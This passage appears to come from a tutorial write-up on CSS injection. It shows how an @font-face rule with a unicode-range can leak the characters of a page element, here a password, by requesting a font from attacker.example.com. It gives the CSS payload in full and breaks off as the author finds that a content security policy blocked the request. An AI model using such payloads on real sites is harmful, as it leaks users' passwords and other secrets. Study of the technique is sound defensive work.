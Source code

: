 So now we can fully understand this exploit.

```css
#sensitive-information{
 font-family:poc;
}
```
This part of the code tries to call the fonts with ``font-family:poc;`` but a font will be loaded **only** if element's content respects the ``unicode-range``. So if there is the character specified in unicode-range in ``#sensitive-information`` content, the font source will be requested. We specify our evil url and we can exfiltrate characters like that!

### The problem (bis)

We can try our exploit with our password ``P4sswordpass`` in ``p1`` id.

Here is our payload:

```css
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?4);
 unicode-range:U+0034; /* Unicode for 4 because there is a 4 in our password */
}
#p1{
 font-family:poc;
}
```

If the exploit works, we'll receive a request on ``http://attacker.example.com/?4``, but... 0... still waiting...

![csp_error](images/csp_error.png)

I think we have forgotten to check something...

![csp_gru](images/meme2.jpg)
